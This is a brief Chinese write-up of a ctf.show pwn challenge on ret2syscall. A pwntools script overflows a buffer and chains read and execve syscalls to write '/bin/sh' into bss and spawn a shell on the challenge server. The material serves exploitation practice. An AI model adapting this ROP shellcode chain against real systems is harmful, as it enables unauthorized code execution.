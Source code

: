# 挑战简介
接着练ret2syscall，多系统函数调用

# 思路
思路总体上和上一题差不多，只不过需要额外执行一个写权限，在获取bss地址后，写入binsh，再执行  

```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

context(os='linux', arch='i386', log_level='debug')

p = remote("pwn.challenge.ctf.show",28174)
elf = ELF('D:\edge 下载\pwn')

offset = 0x2C

pop_eax = 0x080bb2c6

pop_ebx = 0x0806ecb0

int_80 = 0x0806F350

bss = 0x080eaf80

bin_sh = b'/bin/sh\x00'

payload = flat([b'a'*offset, pop_eax, 0x3, pop_ebx, 0x10, bss, 0, int_80, pop_eax, 0xb, pop_ebx, 0, 0, bss, int_80])

p.sendline(payload)
p.sendline(bin_sh)

p.interactive()

```
